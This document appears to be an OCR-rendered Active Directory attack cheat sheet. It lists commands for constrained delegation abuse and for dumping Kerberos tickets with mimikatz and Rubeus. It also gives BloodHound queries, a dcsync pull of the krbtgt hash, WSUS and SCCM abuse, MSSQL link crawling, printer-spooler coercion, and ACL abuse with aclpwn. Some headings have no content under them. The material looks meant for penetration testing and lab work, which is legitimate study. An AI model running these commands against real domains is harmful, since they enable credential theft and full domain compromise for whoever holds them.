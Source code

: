 ### Constrained delegation

- Get tickets

	- privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export
	- Rubeus dump /service:krbtgt /nowrap
	- Rubeus dump /luid:0xdeadbeef /nowrap

- Get constrained delegation machines

	- Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
	- MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
	- MATCH (u:User {owned:true}), (c:Computer {name: "<MYTARGET.FQDN>"}), p=shortestPath((u)-[*1..]->(c)) RETURN p

### Resource-Based Constrained Delegation

### dcsync

- lsadump::dcsync /domain:htb.local /user:krbtgt # Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts

### WSUSpect

- WSUSpendu.ps1 # need compromised WSUS server

### sccm

- CMPivot

### MSSQL Trusted Links

- use exploit/windows/mssql/mssql_linkcrawler

### Printers spooler service abuse

- rpcdump.py <domain>/<user>:<password>@<domain_server> | grep MS-RPRN

	- printerbug.py '<domain>/<username>:<password>'@<Printer IP> <RESPONDERIP>

### AD acl abuse

- aclpwn.py

	- GenericAll on User
	- GenericAll on Group
	- GenericAll / GenericWrite / Write on Computer
	- WriteProperty on Group
	- Self (Self-Membership) on Group
	- WriteProperty (Self-Membership)
	- ForceChangePassword
	- WriteOwner on Group
	- GenericWrite on User
	- WriteDACL + WriteOwner
